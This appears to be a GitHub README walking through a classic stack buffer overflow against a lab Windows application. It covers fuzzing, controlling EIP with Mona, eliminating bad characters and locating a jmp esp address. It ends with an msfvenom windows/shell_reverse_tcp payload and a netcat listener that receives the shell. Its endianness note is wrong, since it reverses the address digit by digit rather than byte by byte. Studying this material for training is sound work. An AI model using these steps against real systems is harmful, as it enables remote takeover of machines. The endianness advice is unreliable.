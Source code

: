# Buffer Overflow

[1. Fuzz the Application](#fuzz-the-application)
  
[2. Replicating the Crash and Controlling EIP](#replicating-the-crash-and-controlling-eip)

[3. Find Bad Characters](#finding-bad-characters)

[4. Find the Jump Point](#find-the-jump-point) 

[5. Generate the Payload](#generate-the-payload)

[6. Exploit](#exploit)

Set a working directory for Mona from teh Immunity Debugger. Run the following command from the command line in Immunity Debugger

<code>!mona config -set workingfolder c:\mona\%p</code>

![alt-text](src/Mona_Command.png)

## Fuzz the Application

Launch Immunity Debugger as Administrator, and use the "File -> Open" command to bring up the vulnerable application. Notice that this does not run the aplication, it still needs to be executed.  

![alt-text](src/Paused_State.png)

Click the red play button at the top of the window to execute the file

![alt-text](src/Running_State.png)

Use the program located [here](fuzzer.py) to fuzz the application. It will send strings to the application incrementing by 500 characters each time until the app crashes or it reaches a string of length 3000.

<code>python fuzzer.py</code>

![alt-text](src/Fuzzing.png)

Make note of when the script stops/the application crashes and the length of the string that caused the crash.

## Replicating the Crash and Controlling EIP

Use the program located [here](exploit.py) (This is the base script, we will modify it as needed with the information we acquire during the assessment of the application)

Note: that the prefix variable will need to be changed to account for whatever initial option the applications takes.

We then need to generate a string of the length of the string that crashed the application + 400. In our case, the application crashed after the 2000 string, so we will generate our string to be size 2400

<code>/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400</code>

Copy this output to the "payload" field in the exploit.py script

Restart the application in the Immunity Debugger and run the exploit.py script.

<code>python exploit.py</code>

The app should crash again, run the following command in Immunity Debugger:

<code>!mona findmsp -distance 2400</code>

Note that we use the same length as the pattern we created earlier.

Mona will display a window with some output in the form of:

> EIP contains normal pattern: ... (offset XXXX)

We will then need to update our exploit.py script and set the offset varialbe to the value of the offset. 

Set the retn variable to "BBBB"

Restart the application in Immunity Debugger and rerun the exploit.py script.

We should see the EIP register is now 42424242 (BBBB)

## Finding Bad Characters

We will generate a bytearray with Mona (Excluding the "\x00" character). Run the following command in Imunity Debugger

<code>!mona bytearray -b "\x00"</code>

Then, generate a string of bad characters that is identical to the bytearray. Use the python code [here](byte_array.py).

Update the payload variable in the exploit.py file with the byte array generated from the python code.

Restart the application and run the exploit.py script again.

Use the following command to print the differences between the bytearray and the values in memory

<code>!mona compare -f C:\path\to\array\bytearray.bin -a [ESP ADDRESS]</code>

Note: Not every character in the output will be a bad character, we will remove them from the generated bytearray one at a time.

<code>!mona bytearray -b "\x00\xXX\xXX"</code>

Remove these same characters from the payload in exploit.py

Restart the application and rerun the exploit.py file until Mona returns "Unmodified", this lets us know there are no bad characters left.

Note: Keep a file of these bad characters, you will need them to find the jump point.

## Find the Jump Point

While the application is crashed or running run the following Mona command in Immunity Debugger with the list of bad caracters found in the previous steps

<code>!mona jmp -r esp -cpb "\x00\xXX\xXX"</code>

This should bring up a window that will have several addresses to several "jmp esp" memory locations.

Pick an address and update the retn variable in the exploit.py file. 

Note: Keep in mind the architecture of the host. If the host is running in little endian, then the address needs to be written backwards (i.e. if the address is 123456 then the little endian address would be 654321). Convert the address to HEX by adding a "\x" before every two characters (i.e. if the address is 123456 then the HEX version would be \x12\x34\x56). If we are running in little endian then the final address would be "\x65\x43\x21".

## Generate the Payload

Use <code>msfvenom</code> to generate shellcode.

<code>msfvenom -p windows/shell_reverse_tcp LHOST=[YOUR_IP] LPORT=443 EXITFUNC=thread -b "[BAD_CHARACTERS]" -f py</code>

Copy the output to the payload variable in the exploit.py file

Note: The msfvenom command outputs the shellcode under the name buf = "...", make sure to change the name to payload before executing the script.

Add some space to allow the shellcode to unpack by setting the padding variable to:

<code>padding = "\x90" * 16</code> 

## Exploit

Setup a netcat listener 

<code>nc -lnvp 443</code>

Restart the application and run exploit.py, and we should catch a shell.
